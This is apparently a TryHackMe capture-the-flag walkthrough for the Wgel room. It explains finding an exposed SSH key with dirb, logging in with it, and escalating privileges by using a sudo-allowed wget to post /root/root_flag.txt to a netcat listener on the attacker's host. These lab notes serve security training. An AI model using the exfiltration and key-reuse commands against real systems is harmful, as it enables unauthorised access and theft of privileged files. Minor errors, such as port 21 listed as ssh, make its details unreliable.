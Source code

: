 ```yaml
---
title: Wgel CTF WalkThrough
permalink: /CTF/wgel
layout: page
tags: TryHackMe
---
```

# Wgel CTF
# ![front](/images/wgel/front.png)
[https://tryhackme.com/room/wgelctf](https://tryhackme.com/room/wgelctf)

## Open Ports:
  - 21: ssh
  - 80: HTTP
  
## Port 80:
**Found name _Jxxxxe_ in source page of index page**
1. find sub-doamisn and directories usind **dirb**
   - ip/sitemap/.ssh **(Found a private ssh key)**
   
## Gaining Access:
 - Save the key in a text file and change mode to 600
  ```
    >chmod 600 key.txt
  ```
 - Connect to SSH using the key
  ```
   >ssh -i key.txt jxxxxe@ip
  ```
### USER Flag:
![user_flag](/images/wgel/user.png)
 

## Privilege Escalation:
 - sudo -l
    - Only user/bin/wget allowed as suoder
    - Open **netcat** port 80 on host
      ```
        >nc -lvpn 80 >flag.txt
      ```
    - In target 
      ```
      >sudo wget --post-file=/root/root_flag.txt ip_of_host
      ```

### Root Flag:
![rootflag.png](/images/wgel/root.png)
